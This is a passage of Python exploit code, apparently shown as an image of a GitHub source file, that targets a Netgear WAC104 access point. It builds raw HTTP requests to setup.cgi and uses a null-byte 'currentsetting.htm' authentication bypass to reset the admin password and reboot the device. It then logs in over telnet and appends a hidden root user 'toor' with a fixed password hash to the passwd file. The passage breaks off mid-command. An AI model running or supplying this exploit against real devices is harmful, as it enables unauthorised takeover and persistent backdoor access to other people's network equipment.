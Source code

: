 ```python
    action(
        b'\r\n'.join([
            ( b"GET /setup.cgi?todo=con_save_passwd&"
            b"sysNewPasswd=%s&sysConfirmPasswd=%s"
            b"%%00currentsetting.htm HTTP/1.5" ) % (new_password, new_password),
            b"Host: aplogin",
            b"", b""
            ])
            )

def reboot():
    action(
        b'\r\n'.join([
            b"POST /setup.cgi?id=0%00currentsetting.htm?sp=1234 HTTP/1.1",
            b"Host: aplogin",
            b"Content-Length: 11",
            b"Content-Type: application/x-www-form-urlencoded",
            b"",
            b"todo=reboot"
            ])
            )

def change_password_full(old_password, new_password):
    old_password = bytes(old_password, "utf-8")
    new_password = bytes(new_password, "utf-8")
    post_body = (
        b"sysOldPasswd=%s&sysNewPasswd=%s&sysConfirmPasswd=%s&"
        b"question1=1&answer1=a&question2=1&answer2=a&"
        b"todo=save_passwd&"
        b"this_file=PWD_password.htm&"
        b"next_file=PWD_password.htm&"
        b"SID=&h_enable_recovery=disable&"
        b"h_question1=1&h_question2=1"
        ) % (old_password, new_password, new_password)

    action(
        b'\r\n'.join([
            b"POST /setup.cgi?id=0%00currentsetting.htm?sp=1234 HTTP/1.1",
            b"Host: aplogin",
            b"Content-Length: %i" % len(post_body),
            b"Content-Type: application/x-www-form-urlencoded",
            b"",
            post_body
            ])
            )

def add_root_user(password):
    p = remote(IP,23)
    t = telnetlib.Telnet()
    t.sock = p
    print(str(t.read_until(b"WAC104 login: "), "cp852"))
    t.write(b"admin\n")

    print(str(t.read_until(b"Password: "), "cp852"))
    t.write(bytes(password, "utf-8") + b"\n")

    print(str(t.read_until(b"$ "), "cp852"))
    # Adds root user named "toor" with password "AlaMaKota1234".
    t.write(
    b"cd /tmp/etc\n"
    b"cp passwd passwdx\n"
    b"echo toor:scEOyDvMLIlp6:0:0::scRY.aIzztZFk:/sbin/sh >> passwdx\n"
    b"mv passwd old_passwd\n"
```